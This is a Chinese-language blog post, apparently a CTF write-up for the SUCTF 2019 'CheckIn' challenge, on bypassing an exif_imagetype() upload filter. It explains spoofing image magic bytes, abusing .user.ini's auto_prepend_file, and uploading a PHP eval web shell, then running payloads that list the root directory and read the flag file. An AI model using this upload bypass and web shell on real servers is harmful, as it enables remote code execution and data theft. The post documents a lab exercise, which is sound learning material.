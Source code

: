 ```yaml
---
layout: post
title: '.user.ini绕过上传'
subtitle: '[SUCTF 2019]CheckIn'
date: 2021-07-27
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### [SUCTF 2019]CheckIn

###  一、知识点

> 1.1exif_imagetype()

打开发现是上传，发现可以上传jpg等格式的文件。然后上传txt格式的文件，发现后台好像是通过exif_imagetype函数判断的— 判断一个图像的类型。
	
	<?php
	if (exif_imagetype("image.gif") != IMAGETYPE_GIF) {
	    echo "The picture is not a gif";
	}
	?>
	
	if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
	
	echo "File is not an image";
	 
	return;
	 
	}

但我们可以通过给上传脚本加上相应的幻数头字节就可以绕过：

	JPG ：FF D8 FF E0 00 10 4A 46 49 46
	GIF(相当于文本的GIF89a)：47 49 46 38 39 61
	PNG： 89 50 4E 47

> [1.2.user.ini(重点)](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

首先介绍php.ini文件，php有很多配置，并可以在php.ini中设置。在每个正规的网站里，都会由这样一个文件，而且每次运行PHP文件时，都会去读取这个配置文件，来设置PHP的相关规则。
这些配置可以分为四种：

![](https://1024861435.github.io/assets/img/user.ini绕过1.png)

我感觉是按重要程度分类了，比如关乎到系统一类的配置，那一类的全部配置，都属于“PHP_INI_SYSTEM”。它只能在，像php.ini这样的“厉害”的文件里可以设定。而其他的三类不怎么重要的配置，除了可以在php.ini中设定外，还可以在其它类似的文件中设定，其中就包括.user.ini文件。

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

这里就很清楚了，.user.ini实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

其中有两个配置，可以用来制造后门：
auto_append_file、auto_prepend_file
指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

auto_prepend_file=test.jpg

那么当我们访问此目录下的任何一个文件时，都会去包含test.jpg

### 二、实践

> 1.制作.user.ini文件

因为后台用exif_imagetype函数检测文件类型，所以我们在文件前加上图片的特征，来绕过检测。

上传文件.user.ini:

	GIF89a
	auto_prepend_file=a.jpg
> 2.制作图片马上传

此处注意，有些题会把含“<?”的文件和过滤掉，所以我们就换个方法制作图片马：注意生成的图片马的名称，要和.user.ini中的配置：auto_prepend_file的值相同。
	
	<script language="php">eval($_POST['a']);</script>

> 访问index.php,我们就成功执行了木马。

然后就可以用菜刀连了。但是它会不时的清除文件，所以链接的不是很稳定，甚至有是时候连不上，但我们可以在网页执行命令。所以我第一次就是在页面执行了命令，找到了flag：
扫描根目录：a=var_dump(scandir("/"));，我们可以可以看见一个叫flag的文件
打印：a=var_dump(file_get_contents("/flag"));


